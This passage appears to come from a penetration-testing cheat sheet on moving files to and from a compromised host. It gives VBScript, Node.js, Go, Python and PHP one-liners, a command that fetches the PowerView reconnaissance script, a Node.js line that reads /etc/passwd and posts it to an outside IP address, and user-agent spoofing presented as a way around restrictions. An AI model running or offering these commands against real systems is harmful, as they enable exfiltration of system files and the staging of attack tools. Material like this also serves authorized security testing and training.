 **Download a File Using VBScript and cscript.exe:**
```cmd
cscript.exe /nologo wget.vbs https://raw.githubusercontent.com/PowerShellMafia/PowerSploit/dev/Recon/PowerView.ps1 PowerView2.ps1
```

**VBScript Upload Example:**
```vbscript
Set http = CreateObject("WinHttp.WinHttpRequest.5.1")
Set stream = CreateObject("Adodb.Stream")
stream.Type = 1
stream.Open
stream.LoadFromFile WScript.Arguments.Item(0)
http.Open "POST", WScript.Arguments.Item(1), False
http.setRequestHeader "Content-Type", "application/octet-stream"
http.Send stream.Read
stream.Close
```

## Node.js

If Node.js is available, it provides powerful file transfer capabilities.

**Node.js Download:**
```bash
node -e 'const https = require("https"); const fs = require("fs"); https.get("https://example.com/file.txt", (res) => { res.pipe(fs.createWriteStream("file.txt")); });'
```

**Node.js Upload:**
```bash
node -e 'const http = require("http"); const fs = require("fs"); const data = fs.readFileSync("/etc/passwd"); const options = {hostname: "192.168.49.128", port: 8000, path: "/upload", method: "POST"}; const req = http.request(options); req.write(data); req.end();'
```

## Go

Go might be available on some systems, especially in containerized environments.

**Go Download One-liner:**
```bash
echo 'package main; import ("io"; "net/http"; "os"); func main() { resp, _ := http.Get("https://example.com/file.txt"); defer resp.Body.Close(); out, _ := os.Create("file.txt"); defer out.Close(); io.Copy(out, resp.Body); }' > download.go && go run download.go
```

## Advanced Techniques

### Bypassing Restrictions

**Custom User Agents:**
```bash
# Python with custom User-Agent
python3 -c 'import urllib.request; req=urllib.request.Request("https://example.com/file.txt", headers={"User-Agent": "Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36"}); urllib.request.urlretrieve(req, "file.txt")'

# PHP with custom headers
php -r '$context = stream_context_create(["http" => ["header" => "User-Agent: Mozilla/5.0\r\n"]]); file_put_contents("file.txt", file_get_contents("https://example.com/file.txt", false, $context));'
```
